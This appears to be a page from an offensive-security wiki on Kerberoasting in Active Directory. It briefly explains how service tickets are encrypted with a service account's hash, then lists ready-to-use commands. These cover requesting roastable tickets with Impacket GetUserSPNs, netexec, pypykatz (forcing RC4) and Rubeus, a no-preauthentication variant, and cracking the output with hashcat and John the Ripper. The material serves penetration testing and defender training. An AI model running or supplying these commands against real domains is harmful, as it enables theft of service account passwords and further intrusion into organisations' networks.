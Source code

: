 ## Theory
When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (sname) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the sname field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline
## Expoit
!!! note
    Kerberoast need a valid credential in domain
=== "UNIX-like"
    The Impacket script GetUserSPNs (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials
    ```bash
    # with a password
    GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

    # with an NT hash
    GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
    ```
    Netexec can also achieved this
    ```bash
    netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
    ```
    Using pypykatz (Python) it is possible to request an RC4 encrypted ST even when AES encryption is enabled (and if RC4 is still accepted of course). The tool features an -e flag which specifies what encryption type should be requested (default to 23, i.e. RC4). Trying to crack $krb5tgs$23 takes less time than for krb5tgs$18.
    ```bash
    pypykatz kerberos spnroast -d $DOMAIN -t $TARGET_USER -e 23 'kerberos+password://DOMAIN\username:Password@IP'
    ```
=== "Windows"
    Rubeus (C#) can be used for that purpose.
    ```bash
    Rubeus.exe kerberoast /outfile:kerberoastables.txt
    ```

Hashcat and JohnTheRipper can then be used to try cracking the hash.
```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```
```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```
### Kerberoast w/o pre-authentication
If an attacker knows of an account for which pre-authentication isn't required (i.e. an ASREProastable account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).
=== "UNIX-like"
    The Impacket script GetUserSPNs (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials
    ```bash
    GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
    ```
=== "Windows"
    Rubeus (C#) can be used for that purpose.
    ```bash
    Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"DOMAIN.LOCAL" /dc:"DC01.DOMAIN.LOCAL" /nopreauth:"nopreauth_user" /spn:"target_service"
    ```
### Targeted Kerberoasting
If an attacker controls an account with the rights to add an SPN to another (`GenericAll`, `GenericWrite`), it can be abused to make that other account vulnerable to Kerberoast (see exploitation).